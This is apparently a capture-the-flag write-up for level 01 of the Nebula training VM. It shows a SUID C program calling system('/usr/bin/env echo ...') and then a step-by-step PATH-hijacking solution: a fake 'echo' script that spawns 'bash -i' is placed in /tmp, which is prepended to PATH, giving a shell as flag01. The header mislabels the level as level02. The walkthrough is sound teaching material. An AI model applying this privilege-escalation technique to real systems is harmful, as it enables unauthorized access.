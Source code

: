 # Level01

#### Description

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
> To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

#### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

***

#### Solution

First of all let's switch on to the directory where those files were present.

```
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls -la
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
```

`flag01` is the binary on which SUID bit has set.

Checking source code revealed a vulnerability - PATH hijacking.

```
system("/usr/bin/env echo and now what?");
```

Binary is not using absolute path for `echo` command and it can be exploitable by making our own `echo` binary somewhere else and add that directory path to PATH environment.

Make a new echo binary in `/tmp` folder and give it executable permission.

```
level01@nebula:/home/flag01$ cd /tmp
level01@nebula:/tmp$ echo -e '#!/bin/bash\nbash -i' > echo
level01@nebula:/tmp$ ls
echo  VMwareDnD  vmware-root
level01@nebula:/tmp$ chmod +x echo
```

Add `/tmp` directory path to PATH environment variable.

```
level01@nebula:/tmp$ export PATH=/tmp:$PATH
level01@nebula:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

This will call that echo binary we created in `/tmp` folder instead of the original one.

```
level01@nebula:/tmp$ /home/flag01/flag01
flag01@nebula:/tmp$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
flag01@nebula:/tmp$ getflag
You have successfully executed getflag on a target account
```

Successfully got flag01 user's account shell and completed this level.

***
